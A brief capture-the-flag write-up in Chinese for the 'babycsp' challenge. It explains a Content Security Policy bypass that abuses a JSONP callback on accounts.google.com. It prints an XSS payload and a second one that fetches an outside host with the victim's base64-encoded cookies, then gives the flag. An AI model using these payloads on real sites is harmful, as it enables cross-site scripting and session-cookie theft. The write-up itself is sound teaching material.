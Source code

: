 # babycsp

CSP限制只能使用 `*.google.com` 的來源，然後`connect-src: *`

所以找個google.com的CSP就能XSS:

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(87);alert"></script>`

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=fetch('http://kaibro.tw/?'%2bbtoa(document.cookie));btoa"></script>`

只是xss bot非常不穩定

我送了幾百次才收到Request

`flag{csp_will_solve_EVERYTHING}`

